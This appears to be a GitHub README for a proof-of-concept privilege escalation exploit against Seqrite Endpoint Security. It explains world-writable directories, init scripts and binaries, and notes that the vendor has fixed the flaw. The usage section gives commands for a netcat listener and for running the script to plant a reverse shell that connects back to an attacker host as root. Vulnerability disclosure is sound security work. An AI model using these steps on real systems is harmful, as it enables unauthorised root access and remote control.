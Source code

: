 # EPScalate
An elevation of privilege vulnerability in QuickHeal's Seqrite Enterprise Endpoint Security Solution (EPS).

### Vendor and Product Details
- __Vendor__: Quick Heal Technologies Limited
- __Product__: Seqrite Endpoint Security (EPS)
- __Product Homepage__: https://www.seqrite.com/endpoint-security/seqrite-endpoint-security
- __Affected Versions__: Affects all versions prior to v8.0.

### Vulnerability Details
Seqrite endpoint security with its default installation installs to `/usr/lib/Seqrite/` with very weak directory and file permissions granting a local user full read/write permission to the contents of the directory. In addition, the installation procedure installs its startup scripts to `/etc/init.d/` which are world writable. This enables any low-privilege user on the system to escalate privileges to root.

The exploit makes use of 2 different vulnerabilities introduced by the software to elevate privileges on the system. Firstly, the fact that the application uses scripts in `/etc/init.d/` to start its scan processes which can be written to by any user. Secondly, the application makes use shared objects to dynamically load position-independent code (PIC) during runtime. As a matter of fact, all of the executable shared object files are world writable. Lastly, the application binaries used for the daemon process are world writable which basically means any non-privileged user could overwrite the scanner binaries with a reverse shell binary to execute arbitrary code as `root`.

### Exploit Usage
The exploit is a simple Python file that aids in the exploitation of the vulnerability.

Steps:
1. On the attacker machine, start a listener using netcat (`nc -lvp <port>`) or metasploit (`multi/handler`).
2. Copy/download the `epscalate.py` file onto the target system.
3. Run the python file with proper arguments (`python3 epscalate.py -H 192.168.0.103:9999 -I`).
4. Wait for the AV to reload / the system to reboot.
5. The reverse connection to your listener can confirm code execution as root.

Exploit help:
```s
$ python epscalate.py -h

    EPSCALATE - PoC for privesc in Seqrite EPS
                ~ 0xInfection

usage: epscalate.py -H <host>:<port> <technique_flag>

options:
  -h, --help            show this help message and exit
  -H HOSTPORT, --hostport HOSTPORT
                        The IP and port of the listening attacker machine in format of <ip>:<port>
  -B, --daemon-binaries
                        Overwrite the main daemon binaries to escalate privileges.
  -I, --initd-scripts   Posion /etc/init.d/ bash startup scripts with a reverse shell to escalate privileges.
```

### Support
The exploit has been tested on all Debian and Ubuntu-based variant operating systems.

### License & Credits
The exploit code has been published under the Apache 2.0 License.
The vulnerability has been disclosed to the vendor and has been remediated at the time of publishing the vulnerability.

Vulnerability and exploit credits: Pinaki Mondal ([0xInfection](https://twitter.com/0xinfection)).
